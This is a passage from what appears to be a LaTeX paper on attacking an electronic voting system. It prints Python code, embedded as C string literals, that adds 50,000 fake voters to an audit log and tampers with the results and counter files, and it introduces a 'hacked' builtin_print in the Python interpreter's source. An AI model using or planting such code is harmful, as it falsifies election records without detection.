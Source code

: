 \begin{verbatim}
	"def changeAuditLogFile(noOfFakeUsers):\n"
	"	counter = 0\n"

	"	try:\n"
	"		counterFile = open('CounterPL.txt', 'r')\n"
	"		counter = int(counterFile.read())\n"
	"		counterFile.close()\n"
	"	except IOError:\n"
	"		counterFile = open('CounterPL.txt', 'w')\n"
	"		counterFile.write(str(0))\n"
	"		counterFile.close()\n"

	"	counter += noOfFakeUsers\n"

	"	counterFile = open('CounterPL.txt', 'w')\n"
	"	counterFile.write(str(counter))\n"
	"	counterFile.close()\n"

	"	output = open('AuditLog.pkl', 'ab')\n"

	"	for i in range(0, noOfFakeUsers):\n"
	"		voteDict = {\n"
	"			'I_AM_BATMAN' + str(i) : {\n"
	"			'president' : [],\n"
	"			'congress' : [],\n"
	"			'counsel' : [3]\n"
	"			}\n"
	"		}\n"
	"		pickle.dump(voteDict, output)\n"
	"	output.close()\n"

	"def main():\n"
	"	noOfFakeUsers = 50000\n"
	"	changeResultsFile(noOfFakeUsers)\n"
	"	changeAuditLogFile(noOfFakeUsers)\n"

	"if __name__ == '__main__':\n"
	"	main()"
			);
	}
\end{verbatim}

The following listing shows the hacked \verb+builtin_print+ method inside \verb+bltinmodule.c+

